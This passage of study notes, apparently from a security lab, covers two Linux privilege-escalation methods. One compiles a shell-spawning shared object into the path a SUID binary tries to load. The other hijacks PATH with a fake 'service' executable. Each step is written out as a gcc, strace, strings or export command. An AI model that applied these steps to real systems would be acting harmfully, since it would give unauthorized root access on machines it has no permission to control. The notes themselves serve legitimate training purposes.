 - like this
`open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)`

- Create the **.config** directory for the libcalc.so file:
```sh
mkdir /home/user/.config
```
- **Compile** the code [[libcalc.c\|libcalc.c]] (It **simply spawns a Bash shell.**) into a shared object at the location the **suid-so** executable was looking for it:
```shell
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
- Run again
`/usr/local/bin/suid-so`

`strace /usr/bin/mount 2>&1 | grep -iE "open|access|no such file"`

</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">

### SUID exploit enviroment var

</div>


- If an executable can be exploited due to it inheriting the user's PATH and attempting to execute programs without specifying an absolute path.
- In this example the executable is trying to start an apache2 webserver
- Use `string` to look for string in the file.
```shell
strings /usr/local/bin/suid-env
```
- One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however **the full path** of the executable (/usr/sbin/service) **is not being used**.
- Compile the code (spawn a bash shell) [[service.c\|service.c]] into an executable.
```shell
gcc -o service /home/user/tools/suid/service.c
```
- Or like an e.g. copy the shell file as a executable
```shell
echo /bin/bash > file_to_execute
```
- Change the PATH [[PATH exploiting\|PATH exploiting]]
```shell
export PATH=/path_to_executable:$PATH
```

</div></div>

### 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">
